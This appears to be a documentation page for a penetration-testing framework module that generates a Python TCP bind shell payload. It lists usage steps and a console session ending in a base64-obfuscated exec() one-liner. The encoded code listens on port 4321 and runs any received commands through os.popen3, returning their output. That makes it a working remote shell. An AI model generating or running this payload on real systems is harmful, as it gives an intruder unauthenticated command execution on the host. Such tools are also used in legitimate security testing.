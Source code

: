 ## Description

Module generates payload that creates interactive tcp bind shell by using python. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/python/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python tcp bind shell payload

## Scenarios

```
rsf > use payloads/python/bind_tcp
rsf (Python Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Python Bind TCP) > run
[*] Running module...
[*] Generating payload
exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uYmluZCgoJzAuMC4wLjAnLDQzMjEpKQpzby5saXN0ZW4oMSkKc28sYWRkcj1zby5hY2NlcHQoKQp4PUZhbHNlCndoaWxlIG5vdCB4OgoJZGF0YT1zby5yZWN2KDEwMjQpCglzdGRpbixzdGRvdXQsc3RkZXJyLD1vcy5wb3BlbjMoZGF0YSkKCXN0ZG91dF92YWx1ZT1zdGRvdXQucmVhZCgpK3N0ZGVyci5yZWFkKCkKCXNvLnNlbmQoc3Rkb3V0X3ZhbHVlKQo='.decode('base64'))
```
